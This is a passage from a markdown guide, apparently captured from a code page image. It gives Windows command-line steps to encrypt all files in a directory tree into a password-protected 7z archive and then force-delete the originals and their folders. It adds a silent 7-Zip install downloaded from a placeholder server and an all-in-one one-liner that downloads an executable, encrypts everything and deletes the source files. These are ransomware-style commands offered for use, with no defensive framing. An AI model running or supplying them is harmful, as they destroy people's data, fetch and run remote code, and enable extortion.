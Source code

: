 ### Step 3: Verify Archive
```cmd
"%SEVENZIP%" t -pantai "encrypted_files.7z"
```

### Step 4: Delete Files (Same as Method 1)
```cmd
for /f "delims=" %F in ('dir /b /a-d /s ^| findstr /v /i "encrypted_files.7z"') do del /f /q "%F"
for /f "delims=" %D in ('dir /b /ad /s ^| sort /r') do rd "%D" 2>nul
```

---

## Method 3: Silent 7-Zip Installation

If you need to install 7-Zip silently first:

### Step 1: Download 7-Zip Installer
```cmd
powershell -Command "(New-Object Net.WebClient).DownloadFile('http://YOUR_SERVER_IP_HERE/7z-installer.exe', '%TEMP%\7z-installer.exe')"
```

### Step 2: Install Silently (Requires Admin)
```cmd
%TEMP%\7z-installer.exe /S /D=C:\Program Files\7-Zip
```

### Step 3: Wait for Installation
```cmd
timeout /t 10 /nobreak
```

### Step 4: Proceed with encryption commands from Method 2

---

## Complete One-Liner Commands

### Download, Encrypt, and Delete (All-in-One)
```cmd
powershell -Command "(New-Object Net.WebClient).DownloadFile('http://YOUR_SERVER_IP_HERE/7z.exe', '%TEMP%\7z.exe')" && %TEMP%\7z.exe a -t7z -mx=9 -mhe=on -pantai "encrypted_files.7z" "*" -r -x!encrypted_files.7z && for /f "delims=" %F in ('dir /b /a-d /s ^| findstr /v /i "encrypted_files.7z"') do del /f /q "%F"
```

---

## Batch File Alternative
